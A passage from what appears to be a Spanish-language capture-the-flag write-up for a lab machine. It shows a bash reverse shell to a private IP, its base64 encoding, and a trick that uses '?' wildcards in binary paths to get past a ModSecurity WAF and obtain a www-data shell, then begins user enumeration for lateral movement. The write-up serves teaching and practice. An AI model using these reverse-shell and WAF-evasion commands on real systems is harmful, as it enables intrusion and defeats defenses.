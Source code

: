 Como puedes ver, el código no tiene validación, así que intentamos crear un revshell que ModSecurity pueda "tragar":

Creamos un simple revshell y lo codificamos en base64:

`sh -i >& /dev/tcp/192.168.1.116/433 0>&1`

En base64:

`c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xLjExNi80MzMgMD4mMQ==`

La idea es ejecutar:

`/bin/echo c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xLjExNi80MzMgMD4mMQ== | base64 -d | /bin/bash -e`

Si lo ejecutamos tal cual, nos mostrará un "Forbidden", pero si lo transformamos con caracteres comodín "?", por ejemplo:

`/???/e??o c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xLjExNi80MzMgMD4mMQ== | base64 -d | /???/b??h -e`

Obtenemos un revshell con el usuario www-data.

## Movimiento Lateral a tester

Ahora podemos enumerar los usuarios del sistema

![img_p8_1](../../../assets/images/yourwaf/img_p8_1.png)

Vemos un usuario: tester.

¿A qué grupos pertenece www-data?

